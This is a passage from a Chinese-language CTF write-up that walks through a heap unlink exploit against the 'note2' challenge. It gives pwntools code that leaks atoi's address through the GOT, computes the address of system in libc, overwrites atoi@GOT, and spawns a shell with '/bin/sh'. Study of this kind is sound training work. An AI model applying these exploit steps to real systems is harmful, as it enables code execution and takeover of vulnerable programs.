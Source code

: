该覆盖主要是为了释放chunk2的时候可以后向合并（合并低地址），对chunk0中虚拟构造的chunk进行unlink。即将要执行的操作为unlink(ptr[0])，同时我们所构造的fakebk和fakefd满足如下约束

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
```

unlink成功执行，会导致ptr[0]所存储的地址变为fakebk，即ptr-0x18。

#### 获取system地址

代码如下

```python
# overwrite the chunk0(which is ptr[0]) with got atoi
atoi_got = note2.got['atoi']
content = 'a' * 0x18 + p64(atoi_got)
editnote(0, 1, content)
# get the aoti addr
shownote(0)

sh.recvuntil('is ')
atoi_addr = sh.recvuntil('\n', drop=True)
print atoi_addr
atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
print 'leak atoi addr: ' + hex(atoi_addr)

# get system addr
atoi_offest = libc.symbols['atoi']
libcbase = atoi_addr - atoi_offest
system_offest = libc.symbols['system']
system_addr = libcbase + system_offest

print 'leak system addr: ', hex(system_addr)
```

我们修改ptr[0]的内容为 ptr 的地址-0x18，所以当我们再次编辑 note0 时，可以覆盖ptr[0]的内容。这里我们将其覆盖为atoi的地址。
这样的话，如果我们查看note 0的内容，其实查看的就是atoi的地址。

之后我们根据 libc 中对应的偏移计算出 system 的地址。

#### 修改atoi got

```python
# overwrite the atoi got with systemaddr
content = p64(system_addr)
editnote(0, 1, content)
```

由于此时 ptr[0] 的地址 got 表的地址，所以我们可以直接修改该 note，覆盖为 system 地址。

#### get shell

```python
# get shell
sh.recvuntil('option--->>')
sh.sendline('/bin/sh')
sh.interactive()
```
